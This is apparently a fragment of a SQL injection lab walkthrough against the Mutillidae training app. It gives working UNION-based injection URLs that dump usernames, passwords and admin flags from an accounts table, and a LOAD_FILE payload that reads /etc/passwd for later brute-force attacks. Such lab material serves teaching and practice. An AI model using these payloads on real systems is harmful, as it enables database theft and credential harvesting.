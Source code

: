 http://192.168.181.198/mutillidae/index.php?page=user-info.php&username=viofer%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![Alt text](img/18.png)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.181.198/mutillidae/index.php?page=user-info.php&username=viofer%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
OUTPUT :

![Alt text](img/20.png)
